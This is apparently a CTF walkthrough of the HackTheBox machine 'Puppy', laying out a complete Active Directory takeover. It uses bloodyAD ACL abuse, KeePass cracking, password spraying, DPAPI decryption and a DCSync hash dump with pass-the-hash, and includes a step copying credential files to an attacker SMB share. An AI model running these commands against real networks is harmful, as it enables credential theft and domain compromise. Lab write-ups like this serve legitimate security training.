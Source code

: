 ```yaml
---
categories:
- CTF
layout: post
image:
  path: preview.png
media_subpath: /assets/posts/2025-07-04-puppy-hackthebox
tags:
- hackthebox
- windows
- active directory
- acl
- keepass
title: puppy @ HackTheBox
---
```

puppy is an medium Windows machine on [hackthebox.eu](https://www.hackthebox.eu). Starting credentials are given to you. Enumerating our starting account, we find ourselfs being apart of the HR group which has GenericWrite over the developers group. We add ourselfs to the Developers group which allows us to access the DEV SMB folder. Downloading the files we find a recovery key for keepass. Cracking this file gives us several usernames and passwords. Spraying these creds gains us access to a new account. This account is apart of the Senior Devs who has GenericAll over a user. Reseting their password gains us access to their account.
However, the account is set to disabled, using ldapmodify, we can enable the account. With this new user, they have a hidden file on their desktop, this file is encrypted using Windows DPAPI. By hosting your own smb share locally, we grab masterkey and the credentials file. Using impackets dpapi, decrypt the file with the masterkey to gain access to a new account. With this new user account, we can perform a desync attack on the domain controller, dumping the administrator hash and gaining control over the domain controller.

## User & Root Flag
This post is a walkthrough for escapeTwo, an medium machine on [hackthebox.eu](https://www.hackthebox.eu). 

The initial scan (`nmap -Pn -n -sC -sV -p- 10.129.168.239`) shows the following results:
```
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-04 23:43:26Z)
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2049/tcp  open  nlockmgr      1-4 (RPC #100021)
3260/tcp  open  iscsi?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49691/tcp open  msrpc         Microsoft Windows RPC
57284/tcp open  msrpc         Microsoft Windows RPC
57299/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-07-04T23:45:14
|_  start_date: N/A
|_clock-skew: 6h59m59s
```
## Fixing clock skew
```
sudo systemctl stop systemd-timesyncd
sudo ntpdate 10.129.168.239
```

## levi.james
Looking through bloodhound, levi.james is apart of the HR group who has GenericWrite over `Developers`.
![capture-1](capture-1.PNG)
```
bloodyAD --host '10.129.168.239' -d 'dc.puppy.htb' -u 'levi.james' -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
```
![capture-3](capture-3.png)
Once we add ourselfs to the developers group, we can access the `DEV` smb share.

![capture-4](capture-4.PNG)
Downloading the files, we can use a keepass script to brute force the password.<br>
[keepass script](https://github.com/r3nt0n/keepass4brute)
![capture-5](capture-5.PNG)
Accessing this file reveals several usernames and passwords.
![capture-6](capture-6.PNG)
Using these usernames and passwords, we can spray them against the DC.
![capture-8](capture-8.PNG)

## ant.edwards
With a new username and password, we can access to ant's account.
Using bloodhound, we find that ant is apart of the senior developers group who has GenericAll privileges over adam.silver.
![capture-9.PNG](capture-9.PNG)
Using bloodyAD, we can reset his password.
```
bloodyAD --host '10.129.168.239' -d 'dc.puppy.htb' -u 'ant.edwards' -p 'Antman2025!' set password ADAM.SILVER Password123!
```
![capture-10.PNG](capture-10.PNG)
However, the account is disabled, so we'll have to enable it.
![capture-11.PNG](capture-11.PNG)
```
ldapsearch -x -H ldap://10.129.168.239 -D "ANT.EDWARDS@PUPPY.HTB" -W -b "DC=puppy,DC=htb" "(sAMAccountName=ADAM.SILVER)"
```
![capture-14.PNG](capture-14.PNG)

## adam.silver
Using `dir -h` in adam's desktop, we find a weird file.
This is most likely a hint towards DPAPI.
![capture-19.PNG](capture-19.PNG)
Create a shared smb folder (create a folder named share)
```
impacket-smbserver share ./share -smb2support
```
With the SMB share set up, copy the credentials and master key over.
```
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" \\10.10.16.48\share\masterkey

copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" \\10.10.16.48\share\credentials
```
![capture-20.PNG](capture-20.PNG)
![capture-21.PNG](capture-21.PNG)
Using impackets dpapi, we can decrypt the masterkey.
```
impacket-dpapi masterkey -file masterkey -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107
```
![capture-22.PNG](capture-22.PNG)
Using this key, we can then use it with the credentials file to get a new username and password.
![capture-23.PNG](capture-23.PNG)

## steph.cooper_adm
Viewing bloodhound, steph can perform a desync attack, allowing us to dump the hashes of the domain controller.
![capture-24.PNG](capture-24.PNG)
```
impacket-secretsdump 'puppy.htb/steph.cooper_adm:FivethChipOnItsWay2025!@10.129.232.128' 
```
![capture-25.PNG](capture-25.PNG)
```
evil-winrm -i 10.129.168.239 -u 'Administrator' -H 'bb0edc15e49ceb4120c7bd7e6e65d75b'
```